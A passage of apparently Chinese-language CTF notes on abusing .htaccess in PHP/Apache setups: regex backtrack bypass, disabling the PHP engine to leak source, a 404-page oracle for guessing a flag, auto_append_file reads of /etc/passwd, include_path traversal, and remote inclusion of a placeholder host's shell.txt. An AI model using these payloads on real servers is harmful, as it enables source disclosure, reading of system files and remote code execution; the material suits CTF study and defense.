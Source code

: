 设置正则回朔次数来使正则匹配的结果返回为 false 而不是0 ，从而可以绕过正则。

## php_flag

用 php_flag设置布尔值，可以将 engine 设置为 0,在本目录和子目录中关闭 php 解析,造成源码泄露

# Trick总结

## 利用404页面

出flag是这样的

```php
<If "file('/flag') =~ '/flag{a/'">
ErrorDocument 404 "y4tacker"
</If>
```

假设flag为flag{testflag}
通过后面flag{a不断变换字符一直到flag{t，页面就会出现y4tacker

## 文件包含

### 本地文件包含

当前目录下php文件头引入/etc/passwd

```php
php_value auto_append_file /etc/passwd
```

使作用范围内的php文件在文件头/尾自动include指定文件，支持php伪协议，.htaccess可以设置php_value include_path "xxx"将include()的默认路径改变

    php_value include_path "xxx"

举个例子，也就会输出一个好东西

```php
<?php
ini_set("include_path","../../../../../../../../");
include "etc/passwd";
```

### 远程文件包含

PHP 的 all_url_include 配置选项这个选项默认是关闭的，如果开启的话就可以远程包含。因为 all_url_include 的配置范围为 PHP_INI_SYSTEM,所以无法利用 php_flag 在 .htaccess 中开启。设置好了以后

```php
php_value auto_append_file http://xxxxx.xxxx.xxx/shell.txt
```

### 可以利用伪协议

需要all_url_fopen、all_url_include 为 On
